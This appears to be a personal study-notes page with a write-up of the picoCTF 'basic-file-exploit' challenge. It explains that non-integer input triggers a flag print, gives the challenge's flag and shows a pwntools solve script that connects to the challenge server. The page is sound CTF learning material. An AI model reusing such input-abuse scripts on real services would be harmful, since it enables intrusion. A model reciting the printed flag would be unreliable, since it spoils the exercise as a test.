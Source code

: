Links [[00 - Global Index (Start Here!)]] [[01 - PicoGym]] [[Binary Exploitation]]

# [[01 - basic-file-exploit]]
### Contents
***
- [Task Description](01%20-%20basic-file-exploit#Task%20Description)
- [Notes](01%20-%20basic-file-exploit#Notes)
- [Solve Script](01%20-%20basic-file-exploit#Solve%20Script)


### Task Description
---
The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it!Connect to the program with netcat:`$ nc saturn.picoctf.net 55825`The program's source code with the flag redacted can be downloaded [here](https://artifacts.picoctf.net/c/542/program-redacted.c).

### Notes
---
Looking over the C code. The flag is printed if the entry_number errors out.
Getting this to work you have to add some data to the file then enter a non int character and it gives the flag:
```flag
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_68466E2F}
```

### Solve Script
---
```python
from pwn import *

r = remote('saturn.picoctf.net',55825)
r.recvuntil(b'program')
r.sendline(b'1')
r.recvuntil(b'data:')
r.sendline(b'a')
r.recvuntil(b'data:')
r.sendline(b'1')
r.recvuntil(b'else?')
r.sendline(b'2')
r.recvuntil(b'data:')
r.sendline(b'a')
r.recv()
  
x = r.recv().decode('utf-8')
print(str(x).strip())
r.close()
```


---
Creation date: 08-10-2022
Last modified date: Sunday 8th October 2022
***
